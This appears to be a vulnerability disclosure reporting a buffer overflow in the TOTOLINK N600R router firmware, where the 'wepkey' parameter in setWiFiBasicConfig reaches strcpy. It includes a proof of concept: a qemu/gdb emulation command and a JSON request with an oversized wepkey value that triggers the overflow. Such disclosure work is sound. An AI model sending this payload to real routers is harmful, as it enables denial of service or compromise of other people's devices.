




# Bug Report: Buffer Overflow in TOTOLINK N600R Router
A buffer overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Buffer Overflow

## Description:
The vulnerable code is within the setWiFiBasicConfig function in cstecgi.cgi. It extracts the `wepkey` parameter into `v13` and passes it into the `strcpy` function. When `wepkey` is specified with excessive data, a buffer overflow occurs.





## poc
We set a breakpoint before the strcpy call and examined the memory state both before and after the out-of-bounds write. The memory dump clearly demonstrates that a buffer overflow occurred.



## reproduce

```bash
./wepkey.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi_41E0C0.cgi
```

### wepkey.sh
```bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_wepkey.cgi  < wepkey.json
```
### wepkey.json
```json
{
        "topicurl" : "UploadCustomModule/setWiFiBasicConfig",
        "ssid" : "1111111111111111111111111111111111111111111111111111111111111",
        "authMode":"OPEN",
        "wepkey":"1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111DOT"
}
```